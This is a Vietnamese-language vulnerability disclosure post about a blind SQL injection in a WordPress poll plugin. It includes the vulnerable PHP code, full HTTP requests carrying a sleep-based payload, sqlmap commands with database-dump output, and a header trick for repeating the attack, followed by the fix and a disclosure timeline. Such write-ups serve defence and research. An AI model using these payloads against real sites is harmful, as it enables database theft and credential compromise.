 ```yaml
---
title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind
SQL Injection
date: 5/07/2021
layout: single
--- 
```


## Mô tả
Tác giả khai thác: inspired - Toby Jackson

Một lỗ hổng đã được phát hiện trong plugin wpdevart wordpress "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.0 và 1.5.2. Có thể thực hiện chèn SQL mù vào tham số date_answers [] khi bỏ phiếu. Điều này có thể được sử dụng để kết xuất cơ sở dữ liệu back end. Phiên bản 1.5.2 yêu cầu thay đổi tiêu đề bằng phương pháp thích hợp để giả mạo địa chỉ IP, chẳng hạn như X-Forwarded-For

+ Nguồn khai thác (exploits/50052)[https://www.exploit-db.com/exploits/50052]
## Vulnerable Code 

Mã dễ bị tấn công nằm trong trang front_end.php trong hàm save_poll_in_databese (). Nó lấy $ question_id và $ current_user_ip trước khi lưu trữ phiếu bầu trong một biến có tên là $ new_voted_array, như được thấy bên dưới, từ tham số bài đăng date_answers

```php
$new_voted_array=$_POST['date_answers'];

```
Sau đó, mảng được lặp lại và biến $ new_answer được sử dụng như một phần của truy vấn where mà không bị khử trùng.

```php
if($new_voted_array)
  foreach($new_voted_array as $new_answer)  {
    $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');

```

## Demo 
```shell
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
------

```
Bằng cách sử dụng điều này, cơ sở dữ liệu có thể dễ dàng được kết xuất bằng cách nắm bắt yêu cầu, với một bộ đánh chặn như burpsuite và sử dụng sqlmap. Bằng cách đặt dấu * tại điểm tiêm cần thiết, sqlmap sẽ kiểm tra vị trí này trước tiên.


```shell 
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
------

```
Lưu tập tin này dưới dạng  request.txt và chạy công cụ.

```shell
------
python sqlmap.py -r request.txt --dbms=mysql --dbs --level=5 --risk=3

[14:30:54] [INFO] testing MySQL
[14:30:54] [INFO] confirming MySQL
[14:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 8.0.0
[14:30:54] [INFO] fetching database names
[14:30:54] [INFO] fetching number of databases
[14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:30:54] [INFO] retrieved: 2
[14:30:54] [INFO] resumed: information_schema
[14:30:54] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress
------
```
```shell
------
python sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

Database: wordpress
[19 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_democracy_a        |
| wp_democracy_log      |
| wp_democracy_q        |
| wp_links              |
| wp_options            |
| wp_polls              |
| wp_polls_question     |
| wp_polls_templates    |
| wp_polls_users        |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
------
```
Trong các phiên bản 1.5.1 và 1.5.2, lỗ hổng này chỉ xảy ra trong lần bỏ phiếu đầu tiên mà người dùng bỏ qua. Thêm tiêu đề X-Forwarded-For ngẫu nhiên vào các yêu cầu sẽ cho phép lặp lại cuộc tấn công như mô tả ở trên.

Điều này đã được chứng minh trong PoC sau

+ [https://youtu.be/Fj1zeXNxDYQ](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)
+ [https://youtu.be/P1r7gk0DSaM](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)

Kẻ tấn công có thể kết xuất cơ sở dữ liệu back-end của máy chủ và giành quyền truy cập vào thông tin đăng nhập của người dùng mà sau đó có thể được sử dụng để thực hiện các hành vi độc hại khác. Nếu được định cấu hình không chính xác, nó cũng có thể dẫn đến việc kẻ tấn công có thể thực thi mã từ xa trên máy chủ

## Nền tảng bị ảnh hưởng 
Các trang web WordPress chạy plugin "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.2 (các phiên bản cũ hơn cũng có thể bị ảnh hưởng).

## Cách khắc phục
Bản cập nhật đã được sửa trong phiên bản 1.5.3, vì vậy bạn nên cập nhật lên phiên bản này nếu sử dụng plugin.

## Thời gian công bố 

+ 9/6/2021: Lỗ hổng bảo mật được xác định.
+ 9/6/2021: Nhà phát triển đã thông báo về lỗ hổng bảo mật.
+ 9/6/2021: Nhà cung cấp trả lời để thảo luận chi tiết hơn về lỗ hổng bảo mật.
+ 9/6/2021: Đã gửi bằng chứng khái niệm cho nhà cung cấp và các khối mã bị ảnh hưởng.
+ 10/6/2021: Email của nhà cung cấp để thông báo lỗ hổng bảo mật đã được khắc phục.
+ 10/6/2021: Bản sửa lỗi ban đầu được xác nhận, nhà cung cấp vui lòng tiết lộ lỗ hổng bảo mật.
+ 10/6/2021: CVE được yêu cầu.
+ 19/6/2021: Liên hệ với WPScan để thảo luận về lỗ hổng bảo mật.
+ 19/6/2021: Bản sửa lỗi đã xác nhận không hợp lệ khi người dùng mới bỏ phiếu hoặc chỉnh sửa tiêu đề.
+ 10/6/2021: Đã liên hệ với nhà cung cấp để yêu cầu sửa chữa thêm.
+ 22/6/2021: Nhà cung cấp xác nhận bản sửa lỗi. Thông tin được công khai.
